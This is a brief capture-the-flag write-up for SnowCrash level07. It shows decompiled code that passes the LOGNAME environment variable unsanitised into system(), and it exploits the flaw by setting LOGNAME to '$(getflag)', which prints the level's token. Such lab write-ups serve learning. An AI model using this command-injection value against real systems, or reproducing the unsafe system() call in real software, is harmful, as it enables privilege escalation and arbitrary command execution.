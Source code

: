 # level07

This one has been quite simple, with a ls we saw an exectuable file, and we used Ghidra that gave us the result stored in level07.c in resources folder.

This is the interesting part: 

```
pcVar1 = getenv("LOGNAME");
asprintf(&local_1c,"/bin/echo %s ",pcVar1);
iVar2 = system(local_1c);
```

We just need to change our env with : export LOGNAME='$(getflag)' and we get :

```
/*********************************************************\

level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

\*********************************************************/
```